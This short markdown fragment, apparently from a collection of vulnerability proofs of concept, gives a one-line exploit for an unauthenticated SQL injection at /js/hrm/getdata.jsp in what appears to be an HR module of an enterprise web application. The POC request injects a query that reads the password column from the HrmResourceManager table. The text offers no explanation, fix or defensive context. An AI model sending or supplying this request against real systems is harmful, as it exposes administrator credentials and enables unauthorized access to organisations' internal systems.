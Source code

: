 ### 前台SQL注入漏洞-/js/hrm/getdata.jsp
POC:
```
 /js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager
```
